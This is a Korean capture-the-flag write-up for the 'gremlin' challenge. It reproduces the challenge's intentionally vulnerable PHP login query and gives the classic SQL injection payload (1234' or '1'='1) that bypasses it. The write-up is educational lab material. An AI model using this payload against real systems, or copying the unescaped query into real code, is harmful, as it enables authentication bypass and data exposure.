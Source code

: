 # gremlin

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 작은 따옴표(0x27)를 필터링 하지 않고 있다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234' or '1'='1

가장 기본적인 sql-injection예제이다.

해당 값을 보내면, query 속 조건은 다음과 같다.
** select id from prob_gremlin where <span style="color:blue">id='1234' and pw='1234'</span> or <span style="color:red">'1'='1' </span>**

조건문은 <span style="color:blue">파랑</span>부분과, <span style="color:red">빨강</span>부분으로 나누어 생각하면 쉽다.
두 조건문 중 하나만 참이어도 참이 되므로, id를 가져오게 된다.